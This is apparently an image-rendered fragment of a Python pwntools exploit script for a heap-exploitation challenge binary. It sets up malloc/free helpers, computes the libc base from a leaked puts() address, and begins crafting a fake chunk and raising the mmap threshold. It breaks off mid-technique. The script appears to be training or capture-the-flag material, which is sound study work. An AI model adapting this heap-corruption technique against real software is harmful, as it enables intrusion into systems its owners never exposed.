 ```python=
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

index = 0

# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# Select the "free" option; send index.
def free(index):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

# Select the "amend age" option; send new value.
def amend_age(age):
    io.send(b"3")
    io.sendafter(b"age: ", f"{age}".encode())
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1

# =============================================================================

# =-=-=- PREPARE A FAKE CHUNK -=-=-=

# Craft a fake chunk using the "age" field.
# Set its prev_inuse flag to avoid backward consolidation.
# This fake chunk has a size of 0, so it acts as its own forward consolidation guard.
age = 1

io.sendafter(b"age: ", f"{age}".encode())
io.recvuntil(b"> ")


# =-=-=- INCREASE MMAP THRESHOLD -=-=-=

# Before we can increase the main arena's system_mem value, we must increase the mmap_threshold.
# We do this by requesting then freeing a chunk with size beyond the mmap threshold.
mem = malloc(0x5fff8, b"Y"*8) # Allocated via mmap().
free(mem) # Freeing an mmapped chunk increases the mmap threshold to its size.


# =-=-=- INCREASE SYSTEM_MEM -=-=-=

```